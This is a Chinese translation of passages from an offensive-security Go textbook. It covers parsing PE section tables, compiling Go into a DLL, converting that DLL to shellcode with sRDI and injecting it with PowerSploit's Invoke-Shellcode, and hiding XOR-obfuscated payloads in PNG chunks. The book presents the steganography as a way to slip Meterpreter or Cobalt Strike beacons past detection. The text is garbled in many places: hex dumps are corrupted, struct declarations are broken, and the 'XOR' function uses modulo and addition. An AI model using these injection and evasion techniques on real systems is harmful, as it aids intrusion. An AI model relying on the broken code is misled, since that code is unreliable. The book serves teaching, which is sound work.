| 00000B0 | 00 | 00 | 9C | 22 | 01 | 00 | 5E | 85 | 01 | 00 | 00 | 00 | 00 | | | |
| 00002C0 | 00 | 00 | 20 | 00 | 00 | 40 | 00 | 20 | 6E | 64 | 74 | 74 | 00 | 00 | .data |
| 00002D0 | 6C | 08 | 51 | 64 | F5 | C5 | 02 | 00 | 00 | 00 | 00 | 00 | 00 | | | |
| 00002E0 | 00 | 00 | 20 | 00 | 00 | 00 | 0A | 02 | 01 | 0C | 1F | 00 | EA | A7 | 02 | | |
| 00002F0 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 40 | 00 | 0C | | |
| 0000300 | 7E | 71 | 64 | 65 | 74 | 61 | 64 | 38 | 00 | 00 | 00 | 00 | 10 | F9 | 02 | | |
| 0000310 | 00 | 00 | 00 | 00 | 00 | 00 | 40 | 00 | 50 | 52 | 74 | 44 | 51 | 74 | 00 | 00 | | |
| 0000320 | E0 | F2 | 02 | 00 | 20 | 00 | 50 | F2 | 02 | 00 | 04 | 00 | 00 | C6 | 02 | | |
| 00000330 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 40 | 00 | 40 | 40 | 00 | | |
| 00000340 | 7E | 72 | 73 | 62 | 63 | 00 | 00 | 6A | 0D | 05 | 00 | 00 | 20 | F2 | 0C | | |
| 00000350 | A6 | 05 | 00 | 00 | 04 | C8 | 02 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | | |
| 00000360 | 00 | 00 | 00 | 00 | 40 | 00 | 40 | 2E | 72 | 65 | 6C | 63 | 00 | 00 | 00 | .reloc |
| 00000370 | F0 | 43 | 15 | 00 | 00 | 01 | 03 | 00 | 44 | 15 | 00 | 00 | A2 | CE | 02 | | |
| 00000380 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 40 | 00 | 40 | 40 | 00 | | |

**图 12-8：使用十六进制编辑器观察到的节表**

你可以访问 COFF Header 中的 Section Table。你也可以使用列表 12-22 中的代码单独访问每个节。

```go
s := pefile.Section(".text")
```

```go
fmt.Printf("%v", *s)

/* Output
{.text 25509328 4096 255093276 1024 0 0 0 1610612768} [] 0xc0000643c0
0xc0000643c0}
*/
```

**列表 12-22：从节表中解析特定的节** (`/ch-12/peParser/main.go`)

另一种选项是遍历整个节表，如列表 12-23 所示。

```go
fmt.Println("---Section Table----")

for _, section := range profile.Sections {
    fmt.Println("++")
    fmt.Println("--------------------")
    fmt.Printf("[+] Section Name: %s\n", section.Name)
    fmt.Printf("[+] Section Characteristics: %s\n", section.Characteristics)
    fmt.Printf("[+] Section Virtual Size: %s\n", section.VirtualSize)
    fmt.Printf("[+] Section Virtual Offset: %s\n", section.VirtualAddress)
    fmt.Printf("[+] Section Raw Size: %s\n", section.RawSize)
    fmt.Printf("[+] Section Raw Offset to Data: %s\n", section.Offset)
    fmt.Printf("[+] Section Append Offset (Next Section): %s\n", section.Offset+section.Size)
}
```

```go
/* OUTPUT
[---Section Table----]
[+]
--------------------
[+] Section Name: .text 0x60000020
[+] Section Characteristics: 0x1853ddd0
[+] Section Virtual Size: 0x1
[+] Section Virtual Offset: 0x0
[+] Section Raw Size: 0x1853e00
[+] Section Raw Offset to Data: 0x400
[+] Section Append Offset (Next Section): 0x1854200
--------------------
```

```go
[+] Section Name: .rodata
[+] Section Characteristics: 0x60000020
[+] Section Virtual Size: 0x1b000
[+] Section Virtual Offset: 0x1855000
[+] Section Raw Size: 0x1c00
[+] Section Raw Offset to Data: 0x1854200
[+] Section Append Offset (Next Section): 0x1855e00
--snip--
/*
```

**列表 12-23：从节表中解析所有节** (`/ch-12/peParser/main.go`)

在这里，我们正在遍历节表 1 中的所有节，并将名称 2、虚拟大小 4、虚拟地址 5、原始大小 6 和原始偏移量 7 写入标准输出。此外，我们还计算了下一个 40 字节的偏移量 8，以防我们需要添加新节。特征值描述了该节作为二进制文件的一部分部分的行为。例如，`.text` 节提供了 `0x6000020` 的值。参考 `https://docs.microsoft.com/en-us/windows/win32/debug/pe-format-flags` (表 12-2) 中的相关节标志数据，我们可以看到三个属性构成了该值。

### 表 12-2：节标志的特征

| 标志 | 值 | 说明 |
|---|---|---|
| `IMAGE_SCN_CNT_CODE` | `0x00000020` | 节包含可执行代码。 |
| `IMAGE_SCN_MEM_EXECUTE` | `0x20000000` | 节可以作为代码执行。 |
| `IMAGE_SCN_MEM_READ` | `0x40000000` | 节可以被读取。 |

第一个值 `0x00000020` (`IMAGE_SCN_CNT_CODE`) 表示节包含可执行代码。第二个值 `0x20000000` (`IMAGE_SCN_MEM_EXECUTE`) 表示该节可以作为代码执行。最后，第三个值 `0x40000000` (`IMAGE_SCN_MEM_READ`) 允许该节被读取。

因此，将所有这些值相加得到 `0x60000020`。如果你正在添加新节，请记住你需要用适当的值更新所有这些属性。

到此，我们结束对 PE 文件数据结构的讨论。我们知道这只是简短的概述。每个节都可以单独成一章。然而，这应该足够让你使用 Go 作为遍历任意数据结构的手段了。PE 数据结构非常复杂，花时间和精力熟悉它的所有组件是完全值得的。

## 额外练习

利用你刚刚学到的关于 PE 文件结构的知识进行扩展。这里有一些额外的想法，将帮助你加固理解，同时也提供了一个探索更多 Go PE 包的机会：

- 获取各种 Windows 二进制文件，并使用十六进制编辑器和调试器探索不同的偏移量值。识别不同二进制文件之间的差异，例如它们的节数量。使用你在本章中构建的解析器来同时探索并验证你的手动操作。

（注：此处后续大量重复内容已略去）

# 将 Go 编译为 C

就像我们将 C 代码嵌入到 Go 程序中一样，我们可以将 CGo 代码嵌入到 C 程序中。这非常有用，因为在本文期间，Go 编译器无法将我们的程序编译为 DLL。这意味着我们无法仅用 Go 构建诸如反射 DLL 注入载荷（如在本章稍些时候创建的）。

然而，我们可以将 Go 代码编译为 C 归档文件，然后使用 C 将归档文件编译为 DLL。在本节中，我们将通过将 Go 代码转换为 C 归档文件来构建 DLL。我们将使用工具将该 DLL 转换为 shellcode，以便内存中注入并执行它。让我们从 Go 代码（列表 12-25）开始，将其保存为 `main.go`。

```go
package main
import "C"
import "fmt"
//export Start
```

```go
func Start() {
    fmt.Println("YO FROM GO")
}

func main() {
}
```

**列表 12-25: Go 载荷** (`/ch-12/dllshellcode/main.go`)

我们在构建中将 C 导入到 CGo 1。接下来，我们使用注释来告诉 Go 我们想在 C 归档中导出一个函数 2。最后，我们定义了想要转换为 C 的函数 3。`main()` 函数 4 可以保持为空。

要构建 C 归档，请执行以下命令：

```bash
go build -buildmode=c-archive
```

我们应该会有两个文件，一个名为 `dllshellcode.a` 的归档文件和一个关联的头文件 `dllshellcode.h`。我们还不能使用这些文件。我们必须在 C 中构建一个垫层（shim）并强制编译器包含 `dllshellcode.a`。一个优雅的解决方案是使用函数表。创建一个包含列表 12-26 中代码的文件，将其命名为 `scratch.c`。

```c
#include "dllshellcode.h"
void (*table[11])() = {Start;
```

**列表 12-26: 保存在 `scratch.c` 文件中的函数表** (`/ch-12/dllshellcode/scratch.c`)

我们现在可以使用 GCC 使用以下命令将 `scratch.c` C 文件构建为 DLL：

```bash
gcc -shared -pthread -o x.dll scratch.c dllshellcode.a -lWinMM -lws2_32
```

为了将我们的 DLL 转换为 shellcode，我们将使用 sRDI (`https://github.com/monoxgas/sRDI/`)，这是一个功能极其强大的优秀工具。首先，在 Windows 上使用 Git 下载仓库，可选地也可以在 GNU/Linux 机器上下载，因为你可能会发现 GNU/Linux 是一个更容易获取的 Python 3 环境。此练习需要 Python 3，如果尚未安装，请进行它。

在 sRDI 目录中，执行 `python3 shell`。使用以下代码生成导出函数的哈希值：

```python
>>> from ShellCodeRDI import *
>>> HashFunctionName('Start')
1168596138
```

sRDI 工具将使用该哈希来识别我们稍后生成的 shellcode 中的函数。

接下来，我们将利用 PowerShell 工具来生成并执行 shellcode。为了方便起见，我们将使用来自 PowerShellSploit (`https://github.com/PowerShellMafia/PowerShellSploit/`) 的工具，这是一组我们可以利用来注入 shellcode 的 PowerShell 工具包。你可以使用 Git 下载它。从 `PowerShellSploit\CodeExecution` 目录，启动一个新的 PowerShell 会话：

```powershell
c:\tools\PowerSploit\CodeExecution> powershell.exe -exec bypass
WindowsPowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.
```


现在从 `PowerShellSploit` 和 `sRDI` 两个 PowerShell 模块：

```powershell
PS C:\tools\PowerSploit\CodeExecution> Import-Module \Invoke-Shellcode.ps1
```

```powershell
PS C:\tools\Sploit\CodeExecution> cd ..\sRDI
PS C:\tools\sRDI> cd .PowerShell\
PS C:\tools\sRDI\PowerShell> Import-Module \ConvertTo-Shellcode.ps1
```

导入两个模块后，我们可以使用来自 `sRDI` 的 `ConvertToShellcode` 从 DLL 生成 shellcode，然后将其传递给 `PowerSploit` 的 `Invoke-Shellcode` 以演示注入。一旦执行，你应该能观察到你的 Go 代码正在运行：

```powershell
PS C:\tools\sRDI\PowerShell> Invoke-Shellcode -Shellcode (ConvertTo-Shellcode
File C:\Users\tom\Downloads\x.dll -FunctionHash 1168596138
```

正在向运行中的 PowerShell 注入代码！

你想要执行你的邪恶计划吗？

`[Y]` 是 `[N]` 否 `[S]` 挂起 `[?]` 帮助 (默认为 `"Y"`): `Y`

`YO FROM GO`

消息 `YO FROM Go` 表示我们已成功从一个转换为 shellcode 的 C 二进制文件启动了载荷。这开启了无数种可能性。

## 总结

讨论的内容很多，但仅仅是触毛一角。我们在章节开始时简要讨论了如何查看 Windows API 文档，以便你熟悉如何将 Windows 对象转换为可用的 Go 对象：这些包括函数、参数、数据类型和返回值。接下来，我们讨论了使用 `uintptr` 和 `unsafe.Pointer` 来执行与 Go `syscall` 包交互时所需的不同类型转换，以及需要避免的潜在陷阱。然后，我们通过进程注入演示将一切整合，该演示使用了各种 Go 系统调用与 Windows 进程内部。

从那里，我们讨论了 PE 文件格式结构，并构建了一个解析器来遍历不同的文件结构。我们演示了各种 Go 对象，它们使得遍历二进制 PE 变得更加方便，并结束了对 PE 文件设置后门时可能感兴趣的重要偏移量。

最后，你构建了一个与 Go 和原生 C 代码互操作的工具链。我们简要讨论了 CGO 包，重点关注了创建 C 代码示例以及探索创建原生 Go DLL 的新工具。

拿起本章并扩展你所学到的知识。我们敦促你不断地构建、破坏和研究许多攻击学科。Windows 攻击面在不断演变，拥有正确的知识和工具将有助于让对抗之旅变得更容易实现。

# 13

## 使用隐写术隐藏数据


`steganography` 一词是两个希腊词的组合：`steganos` 意为覆盖、隐藏或保护，`graphien` 意为写入。在安全领域，隐写术是指将数据植入其他数据（如图像）中进行混淆的技巧，以便在未来的某个时刻被提取。作为安全社区的一员，你将定期探索这种实践。

在本章中，你将在 PNG（`Portable Network Graphics`）图像中注入数据。你将首先探索 PNG 格式并读取 PNG 数据，然后将自己的数据注入现有图像。最后，你将探索一种加密和解密你注入数据的方法。

## 探索 PNG 格式

让我们查看 PNG 规范，这将帮助你理解 PNG 格式以及如何将数据注入文件。你可以在 `http://www.libpng.org/pub/png.html` 找到技术规范。它提供了关于二进制 PNG 图像的细节，由重复的数据块组成。使用十六进制编辑器打开 PNG 文件并遍历每个相关组件。我们使用的是 Linux 原生十六进制编辑器。你可以在 `https://github.com/blackhat-go/blob/master/ch-13/imgInject/images/battlecat.png` 找到我们要打开的示例图像；所有有效图像都遵循相同的格式。

## 头部

图像的前 8 个字节 `89 50 4e 47 0d 0a 1a 0a` 如图 13-1 所示。

```
00000000 89 50 4e 47 0d 0a 1a 0a 54 00 00 49 48 44 52
00000010 00 00 03 20 00 00 02 50 08 06 00 00 9a 76 82
00000020 78 00 05 04 2c 29 4c 41 9f 54 7e 0b 87 74 53
00000030 57 be 8f 03 b3 93 c0 4a 53 42 48 64 32 10 42
00000040 08 d5 c6 b7 de f7 2a 17 89 4b 64 15 cb 92 65 d9
00000050 75 28 c7 01 4c 4f e1 97 99 38 40 42 31 2e 15 53
00000060 43 2e fe 7b 3a 64 65 66 66 9a 85 87 f7
00000070 18 bd dc 99 af 4c e1 9f fb bf 3b 33 66 77 58
00000080 df b5 8f 24 97 73 24 60 cf fa ed de 28 14
```

图 13-1：PNG 文件的头部，第三和第四个十六进制值直接读取 ASCII。任意的尾随字节包含 DOS 结束符和回车符（CRLF）。

这个特定的头部序列称为文件的魔数，在每个 PNG 文件中都是相同的。内容的变化发生在剩余的数据块中，正如你所看到的。在我们处理此规范时，让我们开始用 Go 构建 PNG 格式的表示。这将有助于我们实现嵌入负载的目标。由于头部长度为 8 字节，它可以封装进 `uint64` 类型，因此让我们构建一个持有该值的结构体（列表 13-1）。所有根目录下的代码列表存在于 github 仓库 `https://github.com/blackhat-go/`。

```go
// Header 存储文件的魔数
type Header struct {
    Header uint64
}
```

列表 13-1：`Header` 结构体定义 (`ch-13/imgInject/pnglib/commands.go`)

# 数据块序列

PNG 文件的剩余部分如图 13-2 所示，由遵循以下模式的重复字节块组成：`SIZE`（4 字节）、`TYPE`（4 字节）、`DATA`（任意字节数）和 `CRC`（4 字节）。

| 偏移 | 十六进制数据 | ASCII |
| :--- | --- | --- |
| 00000000 | 89 59 4e 47 0d 0a 1a 0a 00 00 00 0d 49 48 44 52 | .PNG.......IHDR. |
| 00000010 | 00 00 03 20 00 00 02 50 08 06 00 00 9a 76 82 | ....X....V. |
| 00000020 | 78 00 05 04 2c 29 4c 41 9f 54 7e 0b 87 74 53 | p..IDATX...tS |
| 00000030 | 57 be af 3f 2c 39 8a 64 53 4d 48 30 42 10 12 | W....HH2.B. |
| 00000040 | 08 d5 60 bc f7 2a 17 89 48 46 64 15 92 65 d9 | ....h.d....e. |
| 00000050 | 72 b7 01 c6 4c 2a 41 97 98 32 40 42 31 2e 15 53 | r...L....2B.S |
| 00000060 | 43 2e fe 7b 3a 64 65 66 66 96 83 8f | c/..z.d.f.... |
| 00000070 | 81 dc dc 02 f9 ac fb bc ef ef aed db 3b 77 66 7f 58 | ....wf.X| |
| 00000080 | df b5 8f 24 97 23 74 68 90 cf fa ae fd de 28 14 | ..S.sS$....(. |

图 13-2：用于剩余图像数据的块模式

进一步详细查看十六进制转储，你可以看到第一个块——`SIZE` 块——由字节 `0x00` `0x00` `0x00` `0x0d` 组成。该块定义了紧随其后的 `DATA` 块的长度。十六进制转换为 ASCII 的结果为 13——因此该块规定 `DATA` 块将包含 13 个字节。`TYPE` 块的字节 `0x49` `0x48` `0x44` `0x52` 在此情况下转换为 ASCII 值 `IHDR`。PNG 规范定义了多种有效类型。其中某些类型（例如 `IHDR`）被用于定义图像元数据或指示图像数据流的结束。其他类型，特别是 `IDAT` 类型，包含了实际的图像字节。

接下来是 `DATA` 块，其长度由 `SIZE` 块定义。最后，`CRC` 块结束了整个块分段。它由组合 `TYPE` 和 `DATA` 字节的 CRC-32 校验和组成。这个特定的 `CRC` 块的字节为 `0x9a` `0x76` `0x82` `0x70`。这种格式在整个文件中不断重复，直到你到达文件结束（`EOF`）状态，该状态由块类型 `IEND` 指示。

就像你在列表 13-1 中对 `Header` 结构体所做，构建一个结构体来存储单个块的值，如列表 13-2所示。

```go
//Chunk represents a data byte chunk segment
type struct struct {
    Size uint32
    Type uint32
    Data []byte
    CRC  uint32
}
```

列表 13-2：`Chunk` 结构体定义 (`/ch-13/imgInject/pnglib/commands.go`)

## 读取图像字节数据

得益于 `binary` 包（你可能记得第 6 章），Go 语言可以轻松地处理二进制数据的读写，但在解析 PNG 数据之前，你需要打开一个文件进行读取。让我们创建一个 `PreProcessImage()` 函数，它将消耗一个类型为 `*os.File` 的文件句柄并返回一个 `*bytes.Reader` 类型的结果（列表 13-3）。

```go
// PreProcessImage 从文件句柄读取到缓冲区
func PreProcessImage(dat *os.File) (*bytes.Reader, error) {
	stats, err := dat.Stat()
	if err != nil {
		return nil, err
	}
	size := stats.Size()
	b := make([]byte, size)
	bufR := bufio.NewReader(dat)
	err = bufR.Read(b)
	bReader := bytes.NewReader(b)

	return bReader, err
}
```

列表 13-3：`PreProcessImage()` 函数定义 (`/ch-13/imgInject/utils/reader.go`)

该函数打开一个文件对象以获取 `FileInfo` 结构 ① 用于获取大小信息 ②。紧接着是几行代码，用于通过 `bufio.NewReader()` 实例化 `Reader` 实例，然后通过调用 `bytes.NewReader()` 实例化 `*bytes.Reader` 实例 ③。函数返回返回 `*bytes.Reader`，它让你开始使用 `binary` 包读取字节数据。你将首先读取头部数据，然后读取块序列。

## 读取头部数据

为了验证文件是否确实为 PNG 文件，使用前 8 个字节（定义了 PNG 文件）来构建 `validate()` 方法（列表 13-4）。

```go
func (mc *MetaChunk) validate(b *bytes.Reader) {
	var header Header

	if err := binary.Read(b, binary.BigEndian, &header.Header); err != nil {
		log.Fatal(err)
	}

	bArr := make([]byte, 8)
	binary.BigEndian.PutUint64(bArr, header.Header)

	if string(bArr[1:4]) != "PNG" {
		log.Fatal("Provided file is not a valid PNG format")
	} else {
		fmt.Println("Valid PNG so we continue!")
	}
}
```

列表 13-4：验证文件是否为 PNG 文件 (`/ch-13/imginject/pnglib/commands.go`)

尽管这个方法看起来并不复杂，但它引入了几个项。第一个也是最明显的是将字节拷贝到 `Header` 结构体的二进制读取。回想你将头部声明为 `uint64`。

`binary` 包提供了允许你处理数据的方法。例如，你可以使用 `BigEndian` 或 `LittleEndian` 来排列字节。这在数据通过网络传输时尤为重要。

## 读取块序列

一旦你验证了头部，就可以遍历块序列。`SIZE`、`DATA` 和 `CRC` 块将一直重复直到到达 `EOF`。为了处理这种情况，我们将构建一个 `ProcessImage()` 方法（列表 13-5）。

```go
func (mc *MetaChunk) ProcessImage(b *bytes.Reader) {
	count := 1
	chunkType := ""
	endChunk := "END"
	for chunkType != endChunk {
		fmt.Printf("--- Chunk #d ---\n", count)
		offset := mc.GetOffset(b)
		fmt.Printf("Offset: %d\n", offset)
		// ... chunkType logic
		count++
	}
}
```

列表 13-5：`ProcessImage()` 方法 (`/ch-13/pnglib/commands.go`)

`bytes.Reader` 包含一个 `Seek()` 方法，这使得推导出每个块的偏移变得很容易。通过将 `bytes.Reader` 的指针传递给 `ProcessImage()`，我们确保在处理每个块时读取器的位置会向前移动。

当前位置的操作非常简单。`Seek()` 方法移动当前的读取或写入偏移量，然后返回相对于文件起始位置的新偏移量。它的第一个参数是你想要移动偏移量的字节数，第二个参数定义了移动将发生的位置。第二个参数的可选值是 0（文件开头）、1（当前位置）和 2（文件末尾）。例如，如果你想从当前位置向左移动 8 字节，将使用 `b.Seek(0,-8)`。

在这里，`b.Seek(0,1)` 表示从当前位置移动 0 字节偏移量，因此它简单地返回当前偏移量：本质上是在不移动位置的情况下获取偏移量。

接下来的方法定义了如何读取实际的数据块字节。为了让代码更具可读性，我们来创建一个 `readChunk()` 方法，然后为读取每个块子字段创建独立的方法（列表 13-7）。

```go
func (mc *MetaChunk) readChunk(b *bytes.Reader) {
	mc.readChunkSize(b)
	mc.readChunkType(b)
	mc.readChunkBytes(b, mc.Chk.Size)
	mc.readChunkCRC(b)
}
func (mc *MetaChunk) readChunkSize(b *bytes.Reader) {
	if err := binary.Read(b, binary.BigEndian, &mc.Chk.Size); err != nil {
		log.Fatal(err)
	}
}
func (mc *MetaChunk) readChunkType(b *bytes.Reader) {
	if err := binary.Read(b, binary.BigEndian, &mc.Chk.Type); err != nil {
		log.Fatal(err)
	}
}

func (mc *MetaChunk) readChunkBytes(b *bytes.Reader, cLen uint32) {
	mc.Chk.Data = make([]byte, cLen)
	if err := binary.Read(b, binary.BigEndian, &mc.Chk.Data); err != nil {
		log.Fatal(err)
	}
}

func (mc *MetaChunk) readChunkCRC(b *bytes.Reader) {
	if err := binary.Read(b, binary.BigEndian, &mc.Chk.CRC); err != nil {
		log.Fatal(err)
	}
}
```

列表 13-7：块读取方法（`/ch-13/imgInject/pnglib/Chunk()` 和 `readChunkCRC()`）

`readChunk()` 和 `readChunkCRC()` 方法非常相似。它们都将一个 `uint32` 值读取到 `Chunk` 结构体的相应字段中。然而，`readChunkBytes()` 稍微有点异常。由于图像数据是变长的，我们需要将此长度传递给 `readChunkBytes()` 函数，使其知道需要读取多少字节。记住，数据长度维护在块的 `SIZE` 子字段中。你识别出 `SIZE` 值并将其作为参数传递给 `readChunkBytes()` 以定义正确大小的切片。只有这样，字节数据才能读取到结构体的 `Data` 字段中。读取数据的操作到此为止，让我们继续探索写入字节数据。

## 写入图像字节数据以植载负载


尽管你可以从许多复杂的隐写技术中选择植载负载，在本节中，我们将关注向特定字节偏移量写入数据的方法。PNG 文件格式在规范中定义了关键块（critical chunks）和辅助块（ancillary chunks）。关键块对于图像解码器处理图像是必须的。辅助块是可选的，提供了各种对编码或解码至关重要的元数据，例如标记和文本。

因此，辅助块类型提供了一个理想的位置，可以覆盖现有块或插入新块。在这里，我们将展示如何向辅助块段插入新的字节切片。

## 定位块偏移量

首先，你需要在辅助数据的某处识别一个合适的偏移量。你可以识别辅助块，因为它们总是以小写字母开头。让我们再次使用十六进制编辑器打开原始 PNG 文件，并移动十六进制转储的最后。

每个有效的 PNG 图像都会有一个 `IEND` 块类型，表示文件的结束（`EOF` 块）。移动到最后一个 `SIZE` 块之前的 4 个字节将你置于 `IEND` 块的起始偏移量以及整个 PNG 文件包含的最后一个任意（关键或辅助）块。记住辅助块是可选的，因此你跟随操作检查的文件可能没有相同的辅助块，或者没有任何重要的辅助块。在我们的示例中，`IEND` 块的偏移量从字节偏移量 `0x85258` 开始（图 13-3）。

```
000851f0 67 cf 55 e8 62 bc 79 f3 66 88 8d 60 87 ff |g..|.y.f.m..
00085200 25 5b a2 2d 35 6b 8f 86 c2 b5 47 19 15 0c |%#....V......C.
00085210 0b 0c 0b 0c 0b 0c 0b 8cf 27 72 ee 5b 35 6f |.......'r. [
00085220 0b 0c 0b 0c 0b 0c 0b 8cf 27 72 ee 5b 35 6f |.......'r. [
00085230 0b 0c 0b 0c 0b 0c 0b 8cf 27 72 ee 5b 35 6f |.......'r. [
00085240 0b 0c 0b 0c 0b 0c 0b 8cf 27 72 ee 5b 35 6f |.......'r. [
00085250 0b 0c 0b 0c 0b 0c 0b 8cf 27 72 ee 5b 35 6f |.......'r. [
00085260 0b 0c 0b 0c 0b 0c 0b 8cf 27 72 ee 5b 35 6f |.......'r. [
```

```go
log.Fatal(err)

if err := binary.Write(bytesMSB, binary.BigEndian, mc.Chk.Data); err != nil {
    log.Fatal(err)
}

return crc32.ChecksumIEEE(bytes.Bytes())
```

列表 13-12: `createChunkCRC()` 方法 (`/ch-13/imgInject/pnglib/commands.go`)

在到达返回语句之前，你声明了一个 `bytes.Buffer` 并将 `TYPE` 和 `DATA` 都写入其中。然后，从缓冲区获取的切片作为参数传递给 `ChecksumIEEE`，并将 CRC-32 校验和作为 `uint32` 数据类型返回。返回语句在这里承担了所有繁重的工作，实际上是对必要的字节计算了校验和。

## `marshalData()` 方法

块的所有必要部分都被分配了它们相应的结构体字段，现在这些字段可以被序列化到 `bytes.Buffer` 中。此缓冲区将提供自定义块的原始字节，这些字节将被插入到新的图像文件中。列表 13-13 显示了 `marshalData()` 方法的内容。

```go
func (mc *MetaChunk) marshalData() *bytes.Buffer {
    bytesMSB := new(bytes.Buffer)
    if err := binary.Write(bytesMSB, binary.BigEndian, mc.Chk.Size); err != nil {
        log.Fatal(err)
    }
    if err := binary.Write(bytesMSB, binary.BigEndian, mc.Chk.Type); err != nil {
        log.Fatal(err)
    }
```

```go
    if err := binary.Write(bytesMSB, binary.BigEndian, mc.Chk.Data); err != nil {
        log.Fatal(err)
    }
    if err := binary.Write(bytesMSB, binary.BigEndian, mc.Chk.CRC); err != nil {
        log.Fatal(err)
    }

    return bytesMSB
}
```

列表 13-13: `marshalData` 方法 (`/ch-13/imgInject/pnglib/commands.go`)

`marshalData` 方法声明了一个 `bytes.Buffer` 并块信息写入其中，包括大小、类型、数据和校验和 5。该方法将所有块数据返回到单个 `bytes.Buffer` 中。

## `WriteData()` 函数

现在你只需要将你的新块分段写入原始图像文件的偏移量处。让我们来看存在于 `utils` 包中的 `WriteData()` 函数（列表 13-14）。

```go
// WriteData writes new chunk data to offset
func WriteData(r *bytes.Reader, c *models.CmdLineOpts, b []byte) {
	offset, err := strconv.ParseInt(c.Offset, 10, 64)
	w, err := os.Create(c.Output)
	if err != nil {
		log.Fatal("Fatal: writing to output file!")
	}
	defer w.Close()
	r.Seek(0, 0)
	var buff = make([]byte, offset)
	r.Read(buff)
```

```go
    w.Write(buff)
	w.Write(b)
	_, err = io.Copy(w, r)
	if err == nil {
		fmt.Printf("Success: %s created\n", c.Output)
	}
}
```

列表 13-14: `WriteData` 函数 (`/ch-13/imgInject/utils/writer.go`)

`WriteData()` 函数消耗掉一个包含原始图像数据的 `bytes.Reader`、一个包含命令行值的 `models.CmdLineOpts` 结构体以及一个持有新块分段的字节切片。代码从将字符串转换为 `int64` 开始，从 `models.CmdLineOpts` 结构体中获取偏移量值；这将帮助你将分段写入特定位置，而不损坏其他块。然后你创建一个文件句柄，以便写入修改后的图像。使用 `r.Seek(0, 0)` 回到 `bytes.Reader` 的开头。记住前 8 个字节是预留给 PNG 头的，因此通过由偏移量确定的字节切片来包含它们。然后从原始图像中读取字节并将这些字节写入新图像。现在原始图像和新图像具有相同的头部。然后你将新块字节写入新图像。最后，将 `bytes.Reader` 的剩余部分（即来自原始图像的字节）追加到新图像文件中。由于之前读取了偏移量到 `EOF` 的字节切片，`bytes.Reader` 已经到了偏移量位置。你得到了一个新的图像文件。你的新文件与原始图像具有相同的尾块，但它还包含了作为辅助块注入的 `payload`。

为了直可视化化到为止所构建的内容，请参考项目代码 `https://github.com/blackhat-go/ch-13/imgInject`。`imginject` 程序消耗原始图像文件、偏移量、任意数据 `payload`、自定义块类型以及修改图像的输出文件的命令行参数，如列表 15 所示。

```bash
$ go run -i images/battlecat.png -o newPNG --offset 0x85258 --payload 1234525252525
```

列表 13-15: 运行 imginject 命令行

如果一切顺利，偏移量 `0x85258` 现在包含一个 `rdm` 块分段，如图 13-4 所示。

```
00085220 0b 61 e6 c9 49 84 fb 34 50 76 f2 b5 e6 fc ff |..A..H..Pv..
00085230 21 d2 4c d4 c0 c0 c0 c8 c0 c0 c0 f8 bf |..I..L..>.
00085240 09 79 b73 24 2a dc cc 3c 90 91 81 81 e2 82 ff 07 |..S.G..>.
00085250 19 f3 bc c9 92 97 24 40 08 00 80 00 1c 72 4a 64 6d |9..G.M....rdm
00085260 31 32 33 34 33 34 33 35 32 25 32 35 32 35 32 |123423452525252
00085270 35 32 25 32 33 32 33 35 35 32 |
```

图 13-4: 作为辅助块注入的 Payload

## 使用 XOR 对图像进行编码解码

就像有许多类型的隐写术一样，也有许多用于混淆数据的技术。例如，如果你正在嵌入 `Meterpreter` shell 或 `Cobalt Strike` beacon，你需要确保它避免网络监控设备和端点安全解决方案的检测。

异或（XOR）是二进制值之间的一种条件比较，当且仅当两个值不同时产生布尔真值，否则产生布尔假值。换句话说，如果 `x` 或 `y` 为真，则语句为真——但如果两者都为真则不是。给定 `x` 和 `y` 为二进制输入值，可以在表 13-1 中看到这种表示。

表 13-1: XOR 真值表

| x | y | x ^ y 输出 |
|---|---|---|
| 0 | 1 | 真或 1 |
| 1 | 0 | 真或 1 |
| 0 | 0 | 假或 0 |
| 1 | 1 | 假或 0 |

你可以使用此逻辑通过比较密钥的位来混淆数据。当两个值匹配时，你将 `payload` 中的位改为 0，当它们不同时，你将其改为 1。让我们扩展你在上一节中创建的代码，包含一个 `encodeDecode()` 函数，以及 `XorEncode()` 和 `XorDecode()` 函数。我们将这些函数插入到（列表 13-16 中）。

```go
func encodeDecode(input []byte, key string) []byte {
	var bArr = make([]byte, len(input))
	for i := 0; i < len(input); i++ {
		bArr[i] += input[i]%len(key)
	}
	return bArr
}
```

列表 13-16: `encodeDecode` 函数 (`/ch-13/imgInject/utils/encoders.go`)

`encodeDecode()` 函数消耗包含 `payload` ① 和密钥的字节切片作为参数。一个新的字节切片 `bArr` 在函数的内部作用域内创建并初始化为输入字节长度（`payload` 的长度）。接下来，函数使用条件循环遍历输入字节数组的每个索引位置。

在内部条件循环中，每次迭代将当前索引的二进制值与通过当前索引值对密钥长度取模得到的二进制值进行异或运算 ④。这允许你使用比 `payload` 短的密钥。当到达密钥结束时，模将强制下一次迭代使用键的第一个字节。每个 XOR 操作的结果都会写入新的 `bArr` 字节切片中，该函数返回生成的切片。

列表 13-17 中的函数封装了 `encodeDecode()` 函数，以方便编码和解码过程。

```go
// XorEncode returns encoded byte array
func XorEncode(decode []byte, key string) []byte {
	return encodeDecode(decode, key)
}
```

```go
// XorDecode returns decoded byte array
func XorDecode(encode []byte, key string) []byte {
	return encodeDecode(encode, key)
}
```

列表 13-17：`XorEncode()` 和 `XorDecode()` 函数 (`/ch-13/imgInject/utils/encoders.go`)

你定义了两个函数 `XorEncode()` 和 `XorDecode()`，它们接受相同的字面量参数并返回相同的值。这是因为你使用与编码数据相同的过程来解码 XOR 编码的数据。然而，你分别定义了这些函数是为了提高程序代码的清晰度。

要在你现有程序中使用这些 XOR 函数，你必须修改在列表 13-8 中创建的 `ProcessImage()` 逻辑。这些更新将利用 `XorEncode()` 函数来加密负载。列表 13-18 显示的修改假设你正在使用命令行参数将值传递给条件编码和解码逻辑。

```go
// Encode Block
if (c.Offset != "") && c.Encode {
var m MetaChunk
m.Chk.Data = utils.XorEncode([]byte(c.Payload), c.Key)
m.Chk.Type = chk.strToInt(c.Type)
m.Chk.Size = chk.createChunkSize()
m.Chk.CRC = chk.createChunkCRC()
bm := chk.marshalData()
bmb := bm.Bytes()
fmt.Printf("Payload Original: %X\n", []byte(c.Payload))
fmt.Printf("Payload Encode: %X\n", chk.Data)
utils.WriteData(b, c, bmb)
}
```

列表 13-18：更新 ProcessImage 以包含 XOR 编码 (`/ch-3/imgInject/pnglib/commands.go`)

